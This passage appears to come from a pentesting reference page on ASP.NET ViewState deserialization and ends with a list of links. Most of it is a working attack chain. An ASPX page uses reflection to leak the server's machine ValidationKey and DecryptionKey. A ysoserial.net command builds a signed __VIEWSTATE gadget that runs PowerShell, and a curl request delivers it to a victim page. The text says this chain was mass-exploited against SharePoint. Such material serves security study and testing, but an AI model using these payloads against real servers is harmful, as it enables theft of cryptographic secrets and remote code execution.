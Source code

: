 Attackers who are able to **upload or execute arbitrary ASPX code** inside the target web root can directly retrieve the secret keys that protect `__VIEWSTATE` instead of bruteforcing them.  
A minimal payload that leaks the keys leverages internal .NET classes through reflection:

```csharp
<%@ Import Namespace="System.Web.Configuration" %>
<%@ Import Namespace="System.Reflection" %>
<script runat="server">
public void Page_Load(object sender, EventArgs e)
{
    var asm = Assembly.Load("System.Web");
    var sect = asm.GetType("System.Web.Configuration.MachineKeySection");
    var m = sect.GetMethod("GetApplicationConfig", BindingFlags.Static | BindingFlags.NonPublic);
    var cfg = (MachineKeySection)m.Invoke(null, null);
    // Output: ValidationKey|DecryptionKey|Algorithm|CompatibilityMode
    Response.Write($"{cfg.ValidationKey}|{cfg.DecryptionKey}|{cfg.Decryption}|{cfg.CompatibilityMode}");
}
</script>
```

Requesting the page prints the **ValidationKey**, **DecryptionKey**, the encryption algorithm and the ASP.NET compatibility mode. These values can now be fed straight into **ysoserial.net** to create a valid, signed `__VIEWSTATE` gadget:

```bash
ysoserial.exe -p ViewState -g TypeConfuseDelegate \
  -c "powershell -nop -c \"whoami\"" \
  --generator=<VIEWSTATE_GENERATOR> \
  --validationkey=<VALIDATION_KEY> --validationalg=<VALIDATION_ALG> \
  --decryptionkey=<DECRYPTION_KEY> --decryptionalg=<DECRYPTION_ALG> \
  --islegacy --minify
curl "http://victim/page.aspx?__VIEWSTATE=<PAYLOAD>"
```

This **key-exfiltration primitive** was mass-exploited against on-prem SharePoint servers in 2025 ("ToolShell" – CVE-2025-53770/53771), but it is applicable to any ASP.NET application where an attacker can run server-side code.

## References

- [**https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/**](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)
- [**https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817**](https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
- [**https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/**](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
- [**https://blog.blacklanternsecurity.com/p/introducing-badsecrets**](https://blog.blacklanternsecurity.com/p/introducing-badsecrets)
- [SharePoint “ToolShell” exploitation chain (Eye Security, 2025)](https://research.eye.security/sharepoint-under-siege/)



{{#include ../../banners/hacktricks-training.md}}



